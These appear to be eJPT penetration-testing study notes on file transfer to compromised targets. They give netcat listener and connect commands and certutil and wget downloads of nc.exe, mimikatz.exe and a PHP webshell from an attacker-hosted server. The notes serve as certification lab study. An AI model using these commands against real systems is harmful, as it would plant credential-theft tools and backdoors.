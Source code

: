 [[Root 𖣂]] | [[eJPT - Cheat Sheets]] | [[eJPT - README]]

<hr>

# Using Netcat

**Server setup and Netcat transfer**

```shell
cd /usr/share/windows-binaries

# We can then setup an HTTP server with Python within this directory
python -m SimpleHTTPServer 80
python3 -m http.server 80

# From the target Windows system, run via terminal the following command
certutil -urlcache -f http://<my_kali_IP>/nc.exe nc.exe

# Now that we have Netcat setup on both systems, we can setup a Netcat listener on the Kali Linux system
nc -nvlp 1234

# We can now connect to the Netcat listener from the Windows Target system using the command line
nc -nv <my_kali_IP> 1234
```

Netcat can also be used to transfer files between a listener and a client.

```shell
# To get started, we can create a file called test.txt on the Kali Linux system with some sample data by running the following command
echo "Hello, this was sent over with Netcat" >> test.txt

# We will now need to setup a Netcat listener on the recipient system, which in this case is the Windows system
nc.exe -nvlp 1234 > test.txt

# On the Kali Linux system, we will need to connect to the listener and send the contents of test.txt through the Netcat connection
nc -nv 10.0.27.35 1234 < test.txt
```

<br>

# Transferring Files to Windows Targets

```shell
# In this case, we will be transferring the mimikatz.exe executable found under the /usr/share/windows-resources/mimikatz/x64 directory on the Kali Linux system
cd /usr/share/windows-resources/mimikatz/x64

# We can then start a web server with Python3 in this directory
python3 -m http.server 80

# We can now navigate back to the meterpreter session on the target system, navigate to the C:\ drive and create the Temp directory
cd C:\\
mkdir Temp
cd Temp

shell

# We can now download the mimikatz.exe executable from the web server being hosted on the Kali Linux system 
certutil -urlcache -f http://<kali_IP>/mimikatz.exe mimikatz.exe
```

<br>

# Transferring Files to Linux Targets

```shell
# We will be transferring the php-backdoor.php file found under /usr/share/webshells/php/ directory on the Kali machine
cd /usr/share/webshells/php/
python3 -m http.server 80

# Navigate back to the command shell session on the target system and download the php-backdoor.php file from the web server being hosted on the Kali linux system
wget http://<kali_IP>/php-backdoor.php
```

<br>

# Useful file locations

- /usr/share/windows-resources/mimikatz/x64
- /usr/share/webshells/php/

